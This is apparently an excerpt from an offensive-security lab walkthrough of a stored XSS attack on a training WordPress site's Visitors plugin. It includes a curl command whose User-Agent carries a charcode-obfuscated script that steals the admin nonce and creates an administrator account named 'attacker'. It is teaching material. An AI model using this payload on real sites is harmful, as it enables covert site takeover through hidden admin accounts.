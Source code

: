 ```javascript
}

// The function is called with the string 'insert_minified_javascript' as the argument.
let encoded = encode_to_javascript('insert_minified_javascript')

// The result is printed to the console.
console.log(encoded)
```

We would use this function in the browser console.

Once we have copied the encoded string, we can insert it with the following curl command and launch the attack:

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

We are proxying through burp.

Everything seems correct, so let's forward the request by clicking Forward, then disabling Intercept.

At this point, our XSS exploit should have been stored in the WordPress database. We only need to simulate execution by logging in to the OffSec WP instance as admin, then clicking on the Visitors plugin dashboard on the bottom left.

We notice that only one entry is present, and apparently no User-Agent has been recorded. This is because the User-Agent field contained our attack embedded into `<script>` tags, so the browser cannot render any string from it.

By loading the plugin statistics, we should have executed the malicious script, so let's verify if our attack succeeded by clicking on the Users menu on the left pane.


